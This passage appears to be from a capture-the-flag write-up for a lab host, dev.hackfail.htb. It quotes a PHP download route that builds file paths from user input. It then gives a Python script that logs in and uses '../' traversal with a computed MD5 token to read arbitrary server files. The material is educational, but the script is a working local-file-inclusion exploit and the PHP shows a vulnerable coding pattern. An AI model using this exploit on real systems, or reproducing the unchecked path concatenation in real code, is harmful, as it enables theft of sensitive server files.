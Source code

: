 # LFI vulnerable
Let's continue to check the source code of `AdminController.php`
```
eos get http://dev.hackfail.htb src/Controller/AdminController.php  
```
We can find `/download` function have `LFI`vulnerable
```
/** 
    * @Route("/download", methods={"GET"})
   */
public function download()
   {

       include("antibf.php");
session_start();
       include("dbconfig.php");
       if(isset($_SESSION["auth"]))
       {
$stmt=$conn->prepare('select username from users where username=?');
$stmt->bind_param("s",$_SESSION["auth"]);
$stmt->execute();
$result=$stmt->get_result();
$row=$result->fetch_assoc();
           if($row['username']==='elonmusk')
           {
$file_storage = "/var/www/blog_dev/uploads/";
               if(isset($_GET['c']) && !is_null($_GET['c'] && isset($_GET['file']) && !is_null($_GET['file'])))  
               {
$fullpath = $file_storage.$_GET['file'];
                   if(file_exists($fullpath))
                   {
                       if(md5($fullpath) === $_GET['c'])
                       {
                           echo file_get_contents($fullpath);
                       }}
```

The `/download `route checks to see if the user is `elonmusk`. If so, it allows us to download the file by passing two parameters: the route information in `file` and `c`

We need to calculate the `md5` value firstly, we can use python script to finish it 
```
#!/usr/bin/python3
import requests, hashlib, sys

if len(sys.argv) < 2:
    print(f"Usage: python3 {sys.argv[0]} <file>")
    sys.exit(1)

session = requests.Session()

target = "http://dev.hackfail.htb/login"
data = {"username": "ElonMusk", "password": "test123"}  
session.post(target, data=data)

default_path = "/var/www/blog_dev/uploads/"
file_path = f"../../../..{sys.argv[1]}"
full_path = default_path + file_path
hash = hashlib.md5(full_path.encode()).hexdigest()

target = "http://dev.hackfail.htb/download"
params = {"file": file_path, "c": hash}
request = session.get(target, params=params)
```
